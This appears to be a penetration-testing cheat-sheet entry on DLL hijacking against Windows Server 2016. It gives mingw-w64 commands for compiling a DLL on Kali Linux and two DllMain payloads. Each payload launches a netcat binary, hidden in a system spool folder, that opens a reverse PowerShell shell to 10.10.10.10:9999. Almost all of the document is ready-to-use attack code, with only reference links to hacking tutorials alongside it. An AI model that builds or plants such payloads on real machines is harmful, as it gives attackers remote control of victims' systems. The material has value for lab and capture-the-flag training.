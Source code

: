 ## DLL hijacking, Compiling dll on Kali, target x64 Win Server 2016

------
`x86_64-w64-mingw32-gcc payload.c -shared -o payload.dll` </br>
`x86_64-w64-mingw32-g++ payload.c -lws2_32 -shared -o payload.dll ` </br>
`sudo apt-get install mingw-w64` </br>
<pre><code>#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
	switch (fdwReason)
	{
	case DLL_PROCESS_ATTACH:
		WinExec("c:\\windows\\system32\\spool\\drivers\\color\\nc64.exe 10.10.10.10 9999 -e powershell.exe", 0);
		break;

	case DLL_THREAD_ATTACH:
		break;

	case DLL_THREAD_DETACH:
		break;

	case DLL_PROCESS_DETACH:
		break;
	}

	return TRUE;
}
</code></pre>

<pre><code>
#include <windows.h>
BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
	system("c:\\windows\\system32\\spool\\drivers\\color\\nc64.exe 10.10.10.10 9999 -e powershell.exe");
	ExitProcess(0);
	return TRUE;
}
</code></pre>
ref:
[IPPSEC arkham vid](https://youtu.be/krC5j1Ab44I?t=3937) </br>
[null-byte](https://null-byte.wonderhowto.com/how-to/use-mingw-compile-windows-exploits-kali-linux-0179461/)</br>
[hacking-tutorial](https://www.hackingtutorials.org/exploit-tutorials/mingw-w64-how-to-compile-windows-exploits-on-kali-linux/)</br>